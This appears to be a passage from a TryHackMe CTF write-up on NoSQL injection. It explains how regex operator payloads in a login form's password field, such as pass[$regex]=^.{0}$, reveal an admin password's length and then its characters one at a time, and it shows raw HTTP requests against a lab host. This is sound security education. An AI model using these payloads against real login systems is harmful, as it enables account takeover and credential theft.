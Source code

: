 We are now working with a regex of length 5 (a single letter c plus 4 dots), matching the discovered password length, and asking if the admin's password matches the regex ^c....$ , which means it starts with a lowercase c, followed by any 4 characters. Since the server response is an invalid login, we now know the first letter of the password can't be "c". We continue iterating over all available characters until we get a successful response from the server:

![Burp Request](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/TryHackMe/images/Nosql-Injection-Basics/Picture-14.png)

This confirms that the first letter of admin's password is 'a'. The same process can be repeated for the other letters until the full password is recovered. This can be repeated for other users as well if needed.



```
POST /login.php HTTP/1.1
Host: 10.10.68.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://10.10.68.12
DNT: 1
Connection: close
Referer: http://10.10.68.12/
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

user=admin&pass=test&remember=on

```

Find Length of John Using Intruder Fuzz the number.


```
POST /login.php HTTP/1.1
Host: 10.10.68.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://10.10.68.12
DNT: 1
Connection: close
Referer: http://10.10.68.12/
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

user=admin&pass[$regex]=^.{0}$&remember=on

```
then find out password
